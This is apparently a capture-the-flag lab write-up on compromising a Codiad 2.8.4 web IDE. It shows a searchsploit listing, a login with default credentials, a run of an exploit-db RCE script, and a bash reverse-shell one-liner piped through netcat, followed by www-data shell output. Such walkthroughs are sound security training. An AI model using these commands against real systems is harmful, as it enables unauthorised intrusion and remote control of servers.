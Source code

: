 ```
searchsploit codiad 2.8.4 
```


```      
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Codiad 2.8.4 - Remote Code Execution (Authenticated)                                                                       | multiple/webapps/49705.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (2)                                                                   | multiple/webapps/49902.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (3)                                                                   | multiple/webapps/49907.py
Codiad 2.8.4 - Remote Code Execution (Authenticated) (4)                                                                   | multiple/webapps/50474.txt
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

need to be authenticated, after reviewing the message from the ftp server, we need to find the default password for the web service codiad

found this default password

https://attackdefense.com/challengedetailsnoauth?cid=312

trying the credentials to login

```
john
password
```

success

![[codiad.png]]

https://www.exploit-db.com/exploits/49705

```
python 49705.py http://10.10.239.154:62337/ john password 10.6.24.127 1337 linux
```

after some trial and error, I noticed you need to have two listeners going at once

so run the python script with the arguments as seen 


```
python 49705.py http://10.10.239.154:62337/ john password 10.6.24.127 1337 linux
```

then the exploit script dictates to run the following command

```
echo 'bash -c "bash -i >/dev/tcp/10.6.24.127/1338 0>&1 2>&1"' | nc -lnvp 1337
```

it also specifies to run an additional command in another terminal

```
nc -lnvp 1338
```

this is what it looks like when ran successfully

![[webrevshells1.png]]

![[webrevshells2.png]]

![[webrevshells3.png]]


we get a successful reverse shell

```
www-data@ide:/var/www/html/codiad/components/filemanager$ whoami
whoami
www-data
www-data@ide:/var/www/html/codiad/components/filemanager$ uname -a
uname -a
Linux ide 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
www-data@ide:/var/www/html/codiad/components/filemanager$
```
